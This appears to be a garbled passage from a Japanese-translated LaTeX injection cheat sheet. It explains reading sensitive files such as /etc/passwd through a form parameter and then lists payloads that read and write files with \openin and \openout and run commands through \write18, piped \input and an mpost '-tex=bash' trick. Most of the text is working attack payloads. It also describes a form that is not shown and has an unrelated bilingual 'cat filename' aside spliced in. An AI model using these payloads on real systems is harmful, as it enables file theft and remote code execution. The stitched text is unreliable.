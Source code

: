 このフォームは、指定されたファイルを読み取るために使用されます。`action`属性は、フォームが送信されたときにデータを送信するURLを指定します。`method`属性は、データの送信方法を指定します（この場合はPOST）。`input`要素の`name`属性は、送信されるデータの名前を指定します。`value`属性は、デフォルトのファイルパスを指定します。

攻撃者は、このフォームを使用して、`/etc/passwd`ファイルなどの機密情報を読み取ることができます。攻撃者は、`file`パラメータに悪意のある入力を提供することで、ファイルのパスを変更できます。これにより、攻撃者はシステム上の他のファイルを読み取ることができます。

この脆弱性を悪用するために、攻撃者は`file`パラメータに次のような入力を提供します。

```
/etc/passwd
```

攻撃者がこの入力を送信すると、サーバーは`/etc/passwd`ファイルを読み取り、その内容を返します。攻撃者は、この情報を使用して、システム上のユーザー名やパスワードなどの機密情報を取得することができます。
```bash
\newread\file
\openin\file=/etc/issue
\read\file to\line
\text{\line}
\closein\file
```
#### 複数行のファイルを読む

To read a file that contains multiple lines, you can use the following command:

複数行を含むファイルを読むには、次のコマンドを使用します。

```bash
cat filename
```

Replace `filename` with the name of the file you want to read.

`filename` の部分を読みたいファイルの名前に置き換えてください。
```bash
\newread\file
\openin\file=/etc/passwd
\loop\unless\ifeof\file
\read\file to\fileline
\text{\fileline}
\repeat
\closein\file
```
### ファイルの書き込み <a href="#write-file" id="write-file"></a>
```bash
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\closeout\outfile
```
### コマンドの実行 <a href="#command-execution" id="command-execution"></a>

コマンドの入力はstdinにリダイレクトされます。それを取得するために一時ファイルを使用します。
```bash
\immediate\write18{env > output}
\input{output}

\input{|"/bin/hostname"}
\input{|"extractbb /etc/passwd > /tmp/b.tex"}

# allowed mpost command RCE
\documentclass{article}\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c (id;uname${IFS}-sm)>/tmp/pwn" "x.mp"}
\end{document}

# If mpost is not allowed there are other commands you might be able to execute
## Just get the version
```
